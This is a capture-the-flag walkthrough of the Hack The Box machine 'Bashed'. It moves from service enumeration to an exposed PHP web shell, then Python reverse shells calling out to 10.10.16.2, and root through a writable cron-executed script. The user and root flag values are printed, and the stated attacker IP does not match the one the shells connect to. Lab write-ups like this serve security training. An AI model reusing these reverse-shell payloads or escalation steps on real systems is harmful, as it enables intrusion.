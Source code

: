 # HTB: Bashed

## Engagement Overview

**Target:** Bashed
**Box IP:** 10.10.10.68
**Date:** 2025-07-06
**Attacker Host:** 10.10.14.3

---

### Objectives

- Enumerate open services and directories  
- Gain initial foothold via exposed web shell  
- Escalate to user and root  
- Capture user and root flags  

---

## Service Enumeration

### Nmap

```bash
nmap -sC -sV -oN nmap.txt 10.10.10.68
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 (Ubuntu)
```

- Web page title: *Arrexel's Development Site*

### Directory Enumeration

```bash
dirbuster -u http://10.10.10.68 -w /usr/share/wordlists/dirb/common.txt
```

- `/dev/phpbash.min.php`  
- `/dev/phpbash.php`  
- `/uploads/`  

---

## Initial Access

Accessing the exposed shell at:

```
http://10.10.10.68/dev/phpbash.php
```

Confirmed `www-data`:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Reverse Shell

```bash
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.16.2",1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```

Upgraded shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Privilege Escalation

`www-data` has `sudo` access to run commands as `scriptmanager` without password:

```
(ALL : ALL) NOPASSWD: ALL
```

Switched to `scriptmanager`, found writable `/scripts/` directory:  

```
-rw-r--r-- 1 scriptmanager scriptmanager test.py
-rw-r--r-- 1 root          root          test.txt
```

`test.txt` overwritten by cron → root executes `test.py`.  

### Root via Cron

Replaced `test.py` with reverse shell payload:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.2",1337))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Caught root shell with netcat listener:  

```bash
nc -lvnp 1337
```

---

## House Cleaning

**Flags:**  

- `user.txt`: `501893517418a7460a6f616a86f3fd82`  
- `root.txt`: `25a9eb38a763d8a0f04af9a3fc390ee7`  

- Removed malicious `test.py` after escalation.  
- No persistence left on target.  

---

## Tools Utilized

- `nmap`, `dirbuster`  
- Python reverse shell  
- `/dev/phpbash.php` interactive shell  
- `linuxprivchecker`  

References:  

- https://github.com/sleventyeleven/linuxprivchecker  
- https://infosecwriteups.com/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2  

---

## Key Takeaways

- Dev artifacts like `phpbash.php` can provide immediate shells.  
- Python reverse shells + TTY upgrades are critical for stability.  
- Cron jobs with writable scripts enable easy privilege escalation.  
- `sudo` misconfigurations with secondary users (e.g. `scriptmanager`) are dangerous and should be audited.  